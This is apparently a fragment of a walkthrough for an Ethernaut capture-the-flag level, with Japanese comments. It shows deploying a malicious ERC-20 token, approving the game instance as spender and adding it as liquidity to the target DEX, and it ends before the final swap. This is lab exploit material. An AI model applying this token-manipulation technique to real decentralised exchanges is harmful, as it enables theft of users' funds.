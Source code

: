 //Malicious Token contractをdeploy 
[block:10968868 txIndex:4]from: 0xF6e...f30F5to: EvilToken.(constructor)value: 0 weidata: 0x608...f0033logs: 1hash: 0x7b8...3e3df

//check totalSupply
0:uint256: 1000000000000000000000000

//Developed Contracts approve of spender by address of Ethernaut instanceとamount 10_000_000
[block:10968896 txIndex:2]from: 0xF6e...f30F5to: EvilToken.approve(address,uint256) 0xbdC...836f1value: 0 weidata: 0x095...89680logs: 1hash: 0x1de...33b6e

//copy MaliciousToken Address from Deployed Contract
>MAL = "0xbdCfa3f90d610491445b096AB4c6f474Dbc836f1"
'0xbdCfa3f90d610491445b096AB4c6f474Dbc836f1'

>await contract.add_liquidity(MAL, 100)